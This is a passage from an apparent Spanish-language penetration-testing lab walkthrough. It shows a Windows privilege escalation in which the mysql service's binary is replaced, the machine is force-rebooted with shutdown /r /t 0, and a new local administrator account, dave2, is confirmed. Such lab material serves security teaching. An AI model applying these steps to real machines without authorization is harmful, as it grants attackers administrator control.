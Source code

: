 ```
PS C:\Users\dave> Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}

Name  StartMode
----  ---------
mysql Auto
```

Podemos comprobar nuestros propios privilegios para saber si podemos apagar la máquina:

```
PS C:\Users\dave> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeSecurityPrivilege           Manage auditing and security log     Disabled
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

El listado anterior muestra que nuestro usuario tiene el privilegio en cuestión (entre otros) y, por lo tanto, deberíamos poder iniciar un apagado o reinicio del sistema. El estado *Disabled* solo indica si el privilegio está actualmente habilitado para el proceso en ejecución. En nuestro caso, significa que nuestro usuario no ha solicitado y no está utilizando actualmente el privilegio SeShutdownPrivilege.

Si el privilegio SeShutdownPrivilege no estuviera presente, tendríamos que esperar a que la víctima iniciara manualmente el servicio, lo que sería mucho menos conveniente.

Podemos emitir un reinicio con **shutdown** y los argumentos **/r** (reiniciar en lugar de apagar) y **/t 0** (en cero segundos).

```
PS C:\Users\dave> shutdown /r /t 0 
```

Una vez que se completa el reinicio, nos conectamos nuevamente como _dave_ a través de RDP y abrimos una ventana de PowerShell. Debido al reinicio emitido y al tipo de inicio _automático_ , el servicio debería haber ejecutado el archivo ejecutable que colocamos para reemplazar el binario del servicio mysql original.

Para confirmar que nuestro ataque funcionó, enumeremos los miembros del grupo _de administradores_ locales con **Get-LocalGroupMember** para verificar si _dave2_ se creó y se agregó.

```
PS C:\Users\dave> Get-LocalGroupMember administrators

ObjectClass Name                      PrincipalSource
----------- ----                      ---------------
User        CLIENTWK220\Administrator Local
User        CLIENTWK220\BackupAdmin   Local
User        CLIENTWK220\dave2         Local
User        CLIENTWK220\daveadmin     Local
User        CLIENTWK220\offsec        Local
```
